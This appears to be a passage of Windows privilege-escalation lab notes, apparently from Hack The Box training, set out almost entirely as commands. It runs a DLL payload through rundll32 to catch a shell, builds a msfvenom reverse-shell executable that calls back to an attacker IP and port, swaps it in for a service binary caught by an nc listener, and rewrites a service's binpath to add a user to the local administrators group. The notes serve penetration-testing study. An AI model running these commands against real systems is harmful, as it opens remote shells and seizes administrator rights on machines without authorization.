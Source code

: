### Run payload in CMD
```
rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```
Then go back to your listener to verify that you caught the shell
# Permissive File System ACLs
### Sharpup
```
.\SharpUp.exe audit
```
### ICAL to verify what groups/users have permissions
```
icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```
### Create payload
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.214 LPORT=4444 --platform windows -f exe > SecurityService.exe
```
### NC Listener
```
nc -lvnp 4444
```
### execute payload
```
sc start SecurityService
```
# Weak Service Permissions
### SharUP
```
SharpUp.exe audit
```
Checking Permissions with AccessChk (change WindscribeService to what is found)
```
accesschk.exe /accepteula -quvcw WindscribeService
```
### Review Local Group Admin
```
net localgroup administrators
```
### Changing the Service Binary Path
```
sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
```
### Stopping the Service
```
sc stop WindscribeService
```
### Starting the Service
```
sc start WindscribeService
```
### Verify Permissions
```
net localgroup administrators
```
log off and log back in to complete the permissions